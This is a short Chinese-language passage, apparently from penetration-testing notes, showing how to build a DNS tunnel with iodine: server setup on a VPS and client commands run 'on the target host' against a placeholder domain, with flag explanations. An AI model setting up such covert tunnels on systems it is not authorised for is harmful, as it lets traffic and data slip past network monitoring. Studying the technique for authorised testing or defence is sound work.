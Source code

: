 配置完之后，可以ping一下dns.xxx.com，观察是否能ping通。

##### iodine

- vps 安装 iodine

```sh
yum install iodine
```

- 在VPS上运行iodine的服务端iodined

```sh
iodined -f -c -P husins 192.168.0.1 dns2tcp.xxx.com -DD
 
 #-f：在前台运行
 #-c：禁止检查所有传入请求的客户端IP地址。
 #-P：客户端和服务端之间用于验证身份的密码。
 #-D：指定调试级别，-DD指第二级。“D”的数量随级别增加。
 #这里的192.168.0.1为自定义局域网虚拟IP地址，建议不要与现有网段冲突
 #注意填写的地址为NS记录
```

- 在目标主机执行

```sh
iodine -f -P h dns2tcp.xxx.com  -M 200

#-r：iodine有时会自动将DNS隧道切换为UDP隧道，该参数的作用是强制在任何情况下使用DNS隧道
#-M：指定上行主机的大小。
#-m：调节最大下行分片的大小。
#-f：在前台运行
#-T：指定DNS请求类型TYPE，可选项有NULL、PRIVATE、TXT、SRV、CNAME、MX、A。
#-O：指定数据编码规范。
#-P：客户端和服务端之间用于验证身份的密码。
#-L：指定是否开启懒惰模式，默认开启。
#-I：指定两个请求之间的时间间隔。
```











